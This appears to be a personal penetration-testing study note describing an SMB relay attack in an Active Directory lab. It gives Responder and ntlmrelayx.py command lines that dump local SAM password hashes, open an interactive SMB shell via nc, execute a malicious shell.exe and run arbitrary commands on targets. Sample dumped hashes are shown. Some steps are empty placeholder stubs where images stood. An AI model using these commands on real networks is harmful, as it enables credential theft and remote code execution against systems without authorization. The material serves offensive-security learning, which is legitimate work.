









# SMB Relay

Smb Relay Attack : relaying hashes gathered by responder tool  to specific machines and potentialy gain access

Requirements : 

1) SMB signing must be disabled or enabled (not required) on the target.
2) Relayed user credintials must be admin on target machine

SMB signing is a protocol which prevent SMB relay attacks by checking whether the  SMB packet digitally signed by u. so its not gonna let u in.

 
 Steps : 
 
 1) identifying devices with smb signing  DISABLED   using nmap
 2) Edit Responder.conf  
 3) running ntlmrelayx.py tool
 4) running responder.py tool

## Steps

<?xml version="1.0" encoding="UTF-8"?>
<node/>

### Nmap

identifying devices with smb signing  DISABLED   using nmap :

### responder.conf

Edit Responder.conf .

Turning of smb and http services

The reason for turning off the smb and http server for responder tool is :

- we just wanna responder to trick the victim to connect to our machine but not with responder's smb and http services, we want the victim to connect the our machine smb service so ntlmrelayx tool takes over and relay the authentication.

### responder.py

python3 Responder.py -I eth0 -dwv

### NTLMRELAYX

<?xml version="1.0" encoding="UTF-8"?>
<node/>

#### Dumping sam hashes

<?xml version="1.0" encoding="UTF-8"?>
<node/>

##### ntlmrelayx.py

ntlmrelayx.py -tf "/home/kali/Desktop/Active Directory/SMB relay/target"  -smb2support

##### results

[*] smb://BOSS/COZIMAKI@192.168.225.130 [1] -&gt; Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:366b974b6c4d4da36ca6942671341d8e:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:325e8cf4179f033927366439707b554e:::
Alice:1001:aad3b435b51404eeaad3b435b51404ee:4039730e1bf6e10dd01eaac983db4d7c:::

#### Smb Client InterActive Shell

<?xml version="1.0" encoding="UTF-8"?>
<node/>

##### ntlmrelayx.py

ntlmrelayx.py -tf "/home/kali/Desktop/Active Directory/SMB relay/target"  -smb2support -i

##### nc

nc 127.0.0.1 11000

what u can do after getting smb client shell connection : 

- browse shares 
- list files and folders 
- download files/folders
- uplodaing   (normal / executable if u have permissions)  files
- creating and removing  files/folders

#### executing Malicious files

ntlmrelayx.py -tf "/home/kali/Desktop/Active Directory/SMB relay/target"  -smb2support -e shell.exe

#### executing commands

ntlmrelayx.py -tf "/home/kali/Desktop/Active Directory/SMB relay/target"  -smb2support -c “whoami”

